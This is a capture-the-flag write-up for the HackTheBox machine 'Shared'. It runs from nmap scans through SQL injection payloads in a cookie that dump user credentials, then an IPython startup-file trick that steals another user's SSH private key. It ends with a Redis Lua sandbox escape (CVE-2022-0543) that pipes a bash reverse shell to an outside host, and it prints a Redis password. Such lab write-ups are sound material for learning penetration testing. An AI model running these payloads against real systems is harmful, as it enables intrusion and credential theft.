

# Shared machine


## Author ✒️

* **Salvador Jesús Megías Andreu** - [salvadorJMA](https://github.com/salvadorJMA)
  

## Information Gathering/Enumeration
🔍  👀 💥 💀 👂 🔐 🔑 🔓 🔒 💣 📋 🚀 📃
### Nmap
We begin our reconnaissance by running an Nmap scan checking for open ports.

```console
nmap -p- --open -T5 -v -n -oG allports 10.10.11.172
```


Basic numbering scripts are launched and detect version and service that run through the open ports found.

```console
nmap -sV -sC -p22,80,443 -oN targeted 10.10.11.172
```


with this action, we have discovered a new domain to which we are redirected **https://shared.htb**.

Which is an online store, in which we are going to add a product to the cart and we are going to proceed with the checkout in the subdomain **https://checkout.shared.htb**:


In this subdomain we realize that a cookie is dragged with the id of the product that we selected previously:


So we are going to try to modify the cookie to check if it is vulnerable to SQL injections:

#### 1. database name search:

```console
{"' and 0=1 union select 1,schema_name,3 from information_schema.schemata limit 1,1-- -":"2"}
```


Once we have verified that it is vulnerable to SQL injections, we start with the search through SQL commands for relevant information that is useful to us, such as: the name of the database, the possible users... etc.

#### 2. database's tables names search:

```console
{"' and 0=1 union select 1,table_name,3 from information_schema.tables where table_schema='checkout'-- -":"2"}
```


#### 3. user name search:

```console
{"' and 0=1 union select 1,username,3 from checkout.user-- -":"2"}
```


#### 4. Searching for james_mason's user password:

```console
{"' and 0=1 union select 1,password,3 from checkout.user where username='james_mason'-- -":"2"}
```


Once we have found the user james_mason and his password, we realize that the hash is encrypted using the md5 cryptographic reduction algorithm. So we proceed to decrypt it:


Having already the credentials of the user james_mason, we connect via ssh:


```console
ssh james_mason@10.10.11.172
```


There are 3 groups in our system, james_mason is specifically in the developer group, so we would have to find a way to escalate privileges in the system.

#### Groups


We have found that the first flag user.txt is held by the user dan_smith:


If we run **pspy** we can see that uid 1001 runs periodically every x time ipython


Searching for a while some vulnerability for ipython, we found the following: [vulnerability](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) 


```console
mkdir -m 777 profile_default
```

```console
mkdir -m 777 profile_default/startup
```

```console
echo "import os; os.system('cat ~/.ssh/id_rsa > /dev/shm/key')" > profile_default/startup/foo.py
```


after a few seconds we can see in /dev/shm the id_rsa of dan_smith:




## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```console
ssh dan_smith@10.10.11.172 -i id_rsa
```


------

As we can see, with the group we want to access, which is the sysadmin group, there is a binary:

```console
find / -group sysadmin 2>/dev/null
```


We execute it

```console
/usr/local/bin/redis_connector_dev
```


We execute it, and we see that it performs some type of login with a password, to see the password that redis uses to identify itself, we download the binary locally:

```console
scp -i id_rsa dan_smith@10.10.11.172:/home/dan_smith/redis_connector_dev .
```


and we run it, listening on port 6379, which is the default port used by the redis service. We finally obtain the password:

```console
netcat -lvnp 6379
```


## Root Flag


Searching for a while some exploit for Redis RCE through Lua Sandbox Escape vulnerability, we found the following:
[exploit](https://github.com/JacobEbben/CVE-2022-0543/blob/main/exploit.py) 

We will use this exploit to generate a reverse shell using port 443:

```console
echo "bash -i >& /dev/tcp/10.10.14.117/443 0>&1" > /dev/shm/sh
```

```console
redis-cli --pass F2WHqJUz2WEz=Gqq
```

```console
 eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = l(); local f = io.popen("cat /dev/shm/sh | bash"); local res = f:read("*a"); f:close(); return res'
```

```console
netcat -lvnp 443
```


---
<div align="center">

<br/>

⌨️ with ❤️ by [Salvador Megías Andreu](https://github.com/salvadorJMA) 😊

</div>

